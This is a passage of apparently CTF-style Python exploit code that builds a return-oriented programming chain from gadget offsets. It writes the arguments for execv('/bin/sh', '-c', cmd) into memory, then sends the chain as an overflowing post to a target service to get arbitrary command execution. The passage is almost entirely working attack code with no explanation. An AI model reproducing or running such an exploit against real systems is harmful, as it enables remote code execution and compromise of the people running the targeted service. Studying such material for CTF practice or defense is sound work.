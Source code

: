 ```python
rop_pop_rsi = proc_base + 0x0052b3f5
rop_mov_prdiP8h_rax = proc_base + 0x004773b8
plt_execv = proc_base + 0x2008c0

payload = b''

def write64(addr, value):
    payload = b''
    payload += p64(rop_pop_rax)
    payload += p64(value)
    payload += p64(rop_pop_rdi)
    payload += p64(addr - 8)
    payload += p64(rop_mov_prdiP8h_rax)
    return payload

"""
addr_writable + 00h: addr_writable + 20h
addr_writable + 08h: addr_writable + 28h
addr_writable + 10h: addr_writable + 30h
addr_writable + 18h: 0

addr_writable + 20h: "/bin/sh"
addr_writable + 28h: "-c"
addr_writable + 30h: "cmd......"
"""

# args
payload += write64(addr_writable + 0x00, addr_writable + 0x20)
payload += write64(addr_writable + 0x08, addr_writable + 0x28)
payload += write64(addr_writable + 0x10, addr_writable + 0x30)
payload += write64(addr_writable + 0x18, 0)
# args[0]
payload += write64(addr_writable + 0x20, u64(b"/bin/sh\0"))
# args[1]
payload += write64(addr_writable + 0x28, u64(b"-c\0\0\0\0\0\0"))
# args[2]
for i in range(0, len(cmd), 8):
    payload += write64(addr_writable + 0x30 + i, u64(cmd[i:i+8]))

# execv("/bin/sh", args)
payload += p64(rop_pop_rsi)
payload += p64(addr_writable)
payload += p64(rop_pop_rdi)
payload += p64(addr_writable + 0x20)
payload += p64(plt_execv)

print(payload)


post_id = user2.post(enc_prefix +  "a"*0x1a6 + payload.hex())
assert post_id == next_post_id
user2.try_encrypt(post_id)
# display(base64.b64decode(user2.get_encrypted_post(post_id)))
```

